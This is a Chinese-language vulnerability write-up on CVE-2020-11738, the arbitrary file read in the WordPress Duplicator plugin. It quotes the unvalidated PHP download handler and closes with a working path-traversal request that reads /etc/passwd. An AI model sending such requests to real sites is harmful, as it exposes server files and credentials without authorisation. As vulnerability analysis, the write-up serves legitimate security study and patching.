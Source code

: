 # WordPress Duplicator duplicator.php 任意文件读取漏洞 CVE-2020-11738

## 漏洞描述

WordPress Duplicator插件由于对文件下载没有进行验证，则导致了任意文件读取漏洞

## 漏洞影响

<a-checkbox checked>Duplicator <= v1.3.26</a-checkbox></br>

## 插件名

<a-checkbox checked>Duplicator</a-checkbox></br>

<a-checkbox checked>https://downloads.wordpress.org/plugin/duplicator.1.3.26.zip</a-checkbox></br>

## 漏洞复现

首先先查看注册的无需授权的action接口 `wp-content/plugins/duplicator/ctrls/class.web.services.php`

![img](../../../.vuepress/public/img/1638523625856-1b37f8fa-0988-426e-a486-ce3aa4379097.png)

这里 `wp_ajax_nopriv_duplicator_download` 对应的函数名为 duplicator_download

![img](../../../.vuepress/public/img/1638523732618-c27820f7-da8f-42e7-9675-dcdf6dcbd156.png)

```php
public static function duplicator_download() {
        $file = sanitize_text_field($_GET['file']);
        $filepath = DUPLICATOR_SSDIR_PATH.'/'.$file;
        // Process download
        if(file_exists($filepath)) {
            // Clean output buffer
            if (ob_get_level() !== 0 && @ob_end_clean() === FALSE) {
                @ob_clean();
            }

            header('Content-Description: File Transfer');
            header('Content-Type: application/octet-stream');
            header('Content-Disposition: attachment; filename="'.basename($filepath).'"');
            header('Expires: 0');
            header('Cache-Control: must-revalidate');
            header('Pragma: public');
            header('Content-Length: ' . filesize($filepath));
            flush(); // Flush system output buffer

            try {
                $fp = @fopen($filepath, 'r');
                if (false === $fp) {
                    throw new Exception('Fail to open the file '.$filepath);
                }
                while (!feof($fp) && ($data = fread($fp, DUPLICATOR_BUFFER_READ_WRITE_SIZE)) !== FALSE) {
                    echo $data;
                }
                @fclose($fp);
            } catch (Exception $e) {
                readfile($filepath);
            }
            exit;
        } else {
            wp_die('Invalid installer file name!!');
        }
    }
```

可以看到这里接受参数 file，拼接至 $filepath 中，通过调试可以得知 

DUPLICATOR_SSDIR_PATH 为 wp-snapshots 目录，file可控且没有过滤，导致任意文件读取

```php
/wp-admin/admin-ajax.php?action=duplicator_download&file=../../../../../etc/passwd
```

![img](../../../.vuepress/public/img/1638523863362-cd010b2b-66df-4243-b4e8-5834b6a9ce11.png)